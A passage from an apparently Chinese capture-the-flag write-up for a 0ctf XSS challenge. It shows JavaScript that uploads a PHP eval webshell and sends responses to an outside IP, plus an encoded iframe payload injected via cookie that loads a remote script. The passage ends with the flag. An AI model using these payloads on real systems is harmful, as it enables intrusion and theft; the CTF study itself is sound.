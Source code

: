```js
          "\r\n" +
          "\x3c?php eval($_GET[\'test\']);?\x3e\r\n" +
          "-----------------------------32762167253918--\r\n";
        var aBody = new Uint8Array(body.length);
        for (var i = 0; i < aBody.length; i++)
          aBody[i] = body.charCodeAt(i);

        xhr.onload=function(e)
        {
            (new Image()).src='http://106.14.61.185:7778/index.php?'+xhr.response;
        }
        xhr.send(new Blob([aBody]));
      }
submitRequest();
```

![testlocal](https://moxiaoxi.info/img/post/0ctf/testlocal.png)

可以看到，其实上传是被执行了，但是因为不是同源所以阻塞了。上传给admin，admin调用的时候，就能正常执行

最后的payload

```html
<!DOCTYPE html>
<html lang="en">
    <head>
        <meta charset="utf-8">
    </head>
    <body>
     <script>
    function get()
    {
        var payload = "<iframe src='javascript:eval(String.fromCharCode(118,97,114,32,115,115,115,61,100,111,99,117,109,101,110,116,46,99,114,101,97,116,101,69,108,101,109,101,110,116,40,34,115,99,114,105,112,116,34,41,59,115,115,115,46,115,114,99,61,34,104,116,116,112,58,47,47,49,48,54,46,49,52,46,54,49,46,49,56,53,47,102,105,108,101,115,47,120,115,115,46,106,115,34,59,100,111,99,117,109,101,110,116,46,98,111,100,121,46,97,112,112,101,110,100,67,104,105,108,100,40,115,115,115,41,59))'>"+"</i"+"frame>;";//payload所在
        document.cookie="username=" + payload + " domain=.government.vip; path=/";
        document.body.appendChild(document.createElement('iframe')).src='http://admin.government.vip:8000';
        //location.href = "http://admin.government.vip:8000/";
    }
    get();
    </script>
    </body>
</html>
```

得到flag{xss_is_fun_2333333}

这里的坑：
